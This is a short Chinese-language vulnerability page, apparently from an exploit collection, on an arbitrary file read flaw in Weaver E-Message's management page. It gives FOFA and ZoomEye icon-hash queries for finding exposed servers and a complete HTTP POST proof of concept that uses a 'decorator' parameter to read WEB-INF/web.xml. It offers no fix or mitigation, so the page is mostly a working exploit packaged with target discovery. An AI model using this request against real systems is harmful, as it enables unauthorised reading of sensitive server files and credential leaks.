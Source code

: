 # e-message管理页面文件读取漏洞

## 漏洞描述

泛微E-Message是一款企业邮件系统，任意文件读取漏洞通常是指通过漏洞可以访问服务器上的任意文件，这可能导致敏感信息泄露。

![image-20240423230501202](./assets/image-20240423230501202.png)

## 网空引擎

**FOFA:** icon_hash="-1477694668"

**zoomeye:** iconhash: "-1477694668"

![image-20240423230441788](./assets/image-20240423230441788.png)

![image-20240423232239648](./assets/image-20240423232239648.png)

## POC

```
POST / HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 43
Cache-Control: max-age=0
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate

decorator=%2FWEB-INF%2Fweb.xml&confirm=true
```

